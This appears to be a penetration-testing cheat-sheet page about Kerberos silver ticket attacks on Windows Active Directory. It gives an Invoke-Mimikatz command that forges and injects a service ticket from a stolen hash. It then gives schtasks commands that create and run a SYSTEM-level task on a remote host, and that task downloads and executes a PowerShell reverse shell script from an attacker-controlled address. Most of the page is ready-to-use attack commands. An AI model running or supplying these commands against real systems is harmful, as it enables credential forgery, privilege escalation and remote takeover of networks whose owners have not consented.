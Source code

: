 ### Requirement

Machine account hash (e.g. after krbtgt&#x20;

### Tools

**Get domain controller account hash**\
Invoke-Mimikatz -Command '"kerberos:golden /domain:dom.local /sid:S-1-5... /target:target-host.local /service:cifs /rc4:hash /user:Administrator /ptt"'

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
* Target is the host from where whe have the service account hash
* Using "cifs" service for later access the filesystem of the Server
* Using "host" service allows to schedule tasks then on the target host
* List of SPN which can be used: https://adsecurity.org/?page\_id=183&#x20;
{% endhint %}

**Schedudle an execute a task with silver ticket of "HOST" Service**

{% code overflow="wrap" %}
```
schtasks /create /S hostname.dom.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (new-object net.webclient).DownloadString(''http://ip/Invoke_powerShellTcp.ps1''')'"

schtasks /Run /S hostname.dom.local /TN "STCheck"
```
{% endcode %}

{% hint style="info" %}
* Attention: Within Download String these are two '
* STCheck is the Name of the task you create
{% endhint %}
